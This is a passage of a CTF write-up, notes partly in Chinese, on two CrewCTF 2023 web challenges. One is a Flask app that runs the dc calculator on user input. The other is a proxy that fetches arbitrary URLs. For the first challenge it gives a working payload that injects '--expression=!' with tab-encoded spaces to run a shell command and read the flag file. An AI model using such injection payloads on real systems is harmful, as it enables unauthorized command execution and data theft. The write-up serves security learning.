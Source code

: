 # web
### sequence_gallery
#命令注入 
```python
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)
```
感觉像命令注入,但是`os.path.basename`限制了目录穿越
> Usage: dc [OPTION] [file ...]
-e, --expression=EXPR evaluate expression
-f, --file=FILE evaluate contents of file
-h, --help display this help and exit
-V, --version output version information and exit

可以使用-e参数执行命令,[参考](https://www.ibm.com/docs/en/aix/7.2?topic=d-dc-command) 
> !	Interprets the rest of the line as an operating system command.

*payload*
%09绕过空格,;来排除.dc的影响
```shell
?sequence=--expression=!%09cat%09fl*;
```
### safe_proxy
[wp](https://untrue.me/writeups/crewctf2023/safe-proxy/)
```js
app.use((ctx) => {
  const params = helpers.getQuery(ctx);
  if (!params.token) return;

  const token = params.token;
  if (token === PROVIDER_TOKEN) {
    ctx.response.body = `export const FLAG = '${FLAG}';`;
  };
});
```
flag需要得知正确的PROVIDER_TOKEN
```js
  .get('/proxy', async (ctx) => {
    const params = helpers.getQuery(ctx);

    if (!params.url) {
      ctx.response.body = 'missing url';
      return;
    }

    const url = params.url;
    const fetchResponse = await fetch(url);
```